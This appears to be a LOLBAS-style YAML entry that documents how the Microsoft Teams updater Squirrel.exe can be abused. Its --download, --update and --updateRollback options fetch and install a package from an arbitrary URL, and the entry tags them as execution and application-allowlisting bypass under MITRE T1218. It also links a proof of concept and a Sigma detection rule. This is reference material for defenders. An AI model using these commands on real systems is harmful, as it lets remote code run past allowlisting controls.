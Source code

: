 ```yaml
---
Name: Squirrel.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Reegun J (OCBC Bank) - @reegun21'
Created: 2019-06-26
Commands:
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --update [url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\current\Squirrel.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

